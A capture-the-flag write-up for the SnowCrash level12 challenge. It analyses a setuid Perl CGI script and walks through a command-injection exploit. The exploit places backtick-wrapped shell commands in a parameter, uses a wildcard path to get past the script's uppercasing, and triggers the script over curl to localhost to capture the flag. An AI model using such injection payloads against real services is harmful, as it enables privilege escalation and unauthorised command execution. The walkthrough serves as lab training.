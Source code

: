 # level12

## Hint

We can see that there is a perl file named `level12.pl`.

First of all there is a `setuid` bit.

And surely this will be our target for the next exploit, just like in `level04`.

```shell-session
level12@SnowCrash:~$ ls -la level12.pl
-rwsr-sr-x+ 1 flag12 level12 464 Mar  5  2016 level12.pl
```

## The script

```perl
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/;
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }
}

n(t(param("x"), param("y")));
```

First of all, we see it's doing some communicating with `localhost` on port `4646`.
And again, like on `level04` with a Common Gateway Interface.

We can see two subroutines: `t` and `n`. 

rom the function call at the bottom we can see that they're nested subroutines. 

Let's continue ...

### subroutine `n`

This subroutine looks like it is printing two strings.
- Either `".."` or `"."`
- It checks the first argument `$_[0]` and if it is equal to `1` returns `".."` and `"."` otherwise.

So basically it's just checking the return of that other subroutine.

### subroutine `t`

This one is harder.

We have two arguments : `$_[0]` and `$_[1]`.

They are assigned to a local variable:

`$_[0]` -> `$xx`
`$_[0]` -> `$nn`

Thus the local variable `$xx` is translated with `tr` operator to a capitalized version of the contents of that variable.

Then, some subsitution of whitespaces is done on it (thank to the  `s` operator) which will remove any whitespace from the string.

For exemple thoses two lines transform a string like:

> "This is a String !"

to

> "THISISASTRING!"

We know that we transform the first argument to a capitalized string without spaces.

The third variable that we can see in there is `@output`, which is an array assigned by

```
egrep "^$xx" /tmp/xd 2>&1
```

The `egrep` call will output the matching lines that begin with the transformed string `$xx` in a file located in `/tmp` named `xd`..

The main takeawat here is: **shell commands are unprotected and executed within a script with `suid` and `guid` bits set**

And as we have seen in several different exercises now: its vulnerable.

## exploit

Lets gather our current knowledge on the task at hand:
1. the script is executed with elevated priviledges
2. it executes unprotected shell commands
3. takes user input as does some modifications to it before sending it to the `in-script` shell command-line.

The only logical thing to do left for us is sending the right shell command to the `x` parameter in order for the script to call an executable of our own making and **print** the call to `getflag.`

## inject code

First, we can see that it is possible to make the script execute shell commands for us if we wrap them in between `backticks` because of the shell command expansion that allows us to have embedded code executed in priority (i.e **before** the call to `egrep`).

```shell-session
level12@SnowCrash:~$ ./level12.pl x="`getflag > /tmp/flag`"
Content-type: text/html

..level12@SnowCrash:~$ cat /tmp/flag
Check flag.Here is your token :
Nope there is no token here for you sorry. Try again :)
```

We see that there is some content written to the `/tmp/flag` file.

Which means that we can make an `evil` shell executable and make it be called by the script as we give it a path as parameter `x`. 

But in order to do that, we need to take into account the modifications that the program does on our input.

Which means we cannot simply give a path to a file to execute because its directories will get capitalized by the call to the `tr` tool and the path may not contain whitespaces either because they get filtered out by `s`.

Meaning the two following examples are invalid injections:

```shell-session
level12@SnowCrash:~$ ./level12.pl x="getflag > /tmp/love"
Content-type: text/html

..level12@SnowCrash:~$ cat /tmp/love
cat: /tmp/love: No such file or directory
```
1. No `backticks` makes the string unparsable by the `in-script` shell command since it will be turned to `GETFLAG>/TMP/LOVE`. which is neither a valid command line nor a valid path.

```shell-session
le vel12@SnowCrash:~$ ./level12.pl x=`getflag > /tmp/love`
Content-type: text/html

..level12@SnowCrash:~$ cat /tmp/love
Check flag.Here is your token :
Nope there is no token here for you sorry. Try again :)
level12@SnowCrash:~$ ls -l /tmp/love
-rw-rw-r-- 1 level12 level12 89 May 18 17:09 /tmp/love
```

2. This command line will be evaluated in **OUR** shell, and the output of that commandline will be sent to the script and that's not our goal, we need acces to the rights that the script has.

This means that we need to query the script that is currently listening on the network at port `4646` and use **ITS** rights in order to call `getflag`. To do that, and as we did for `level04` we use curl and make a nice query that will do the rest of the work for us.

## Getflag

```shell-session
level12@SnowCrash:/tmp$ echo "getflag > /tmp/flag" > EVILSCRIPT
level12@SnowCrash:/tmp$ chmod 777 EVILSCRIPT
level12@SnowCrash:/tmp$ ls -l EVILSCRIPT
-rwxrwxrwx 1 level12 level12 20 May 18 17:21 EVILSCRIPT
level12@SnowCrash:/tmp$ curl '127.0.0.1:4646?x="`/*/EVILSCRIPT`"'
..level12@SnowCrash:/tmp$ cat flag
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```
